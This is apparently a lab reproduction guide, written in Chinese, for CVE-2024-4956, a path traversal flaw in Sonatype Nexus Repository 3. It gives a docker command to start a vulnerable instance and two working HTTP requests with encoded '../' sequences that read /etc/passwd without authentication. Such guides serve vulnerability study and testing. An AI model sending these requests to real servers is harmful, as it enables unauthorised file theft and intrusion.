


# Sonatype Nexus Repository 路径遍历漏洞（CVE-2024-4956）

Sonatype Nexus Repository 3（通常简称为Nexus3）是一个由Sonatype开发的仓库管理工具，用于管理和托管各种软件构件（如Maven构件、Docker镜像等），它提供了一种集中化的方式来存储、管理和分发软件构件，以帮助团队协作和构建自动化。
	Nexus Repository 3 中发现了一个路径遍历漏洞。该漏洞允许攻击者制作一个 URL，以下载任何文件，包括 Nexus Repository 应用程序范围之外的系统文件，而无需任何身份验证

**影响版本**：<=nexus3:3.68.0

**参考链接**：

- https://support.sonatype.com/hc/en-us/articles/29416509323923
- https://ethicalhacking.uk/cve-2024-4956-path-traversal-vulnerability-in-sonatype-nexus-repository-3/

## 漏洞环境

执行如下命令启动一个nexus3:3.68.0-web：

```
docker run -p 8081:8081 --name nexus sonatype/nexus3:3.68.0-java8
```



## 漏洞复现

```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: 192.168.76.128:8081
```

```
GET /%2F%2F%2F..%2F%2F.%2F%2F..%2F%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: 192.168.76.128:8081
```



